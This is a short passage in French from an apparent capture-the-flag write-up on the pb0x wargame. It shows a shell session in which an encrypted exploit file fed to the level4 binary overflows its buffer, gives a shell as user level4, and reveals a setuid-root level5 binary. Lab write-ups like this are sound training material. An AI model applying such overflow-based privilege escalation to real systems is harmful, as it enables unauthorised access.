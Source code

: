 Ensuite je chiffre le fichier et je le donne au binaire :

```shellsession
level3@pb0x:/home/level3$ ./level4 exploit_file.crypt password        
Message: AAAAAAAAAAAAAAA---snip---AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
$ id
uid=1004(level4) gid=1003(level3) groups=1004(level4),1003(level3)
$ cd /home/level4
$ ls -al
total 608
drwxr-x--- 2 level4 level4   4096 Jan  4  2015 .
drwxr-xr-x 7 root   root     4096 Jan  3  2015 ..
-rw-r--r-- 1 level4 level4    220 Jan  3  2015 .bash_logout
-rw-r--r-- 1 level4 level4   3486 Jan  3  2015 .bashrc
-rw-r--r-- 1 level4 level4    675 Jan  3  2015 .profile
-rw------- 1 level4 level4    759 Jan  4  2015 .viminfo
-rwsr-xr-x 1 root   level4 596244 Jan  3  2015 level5
```

Bingo ! La suite au prochain épisode ?

*Publié le 27 décembre 2022*
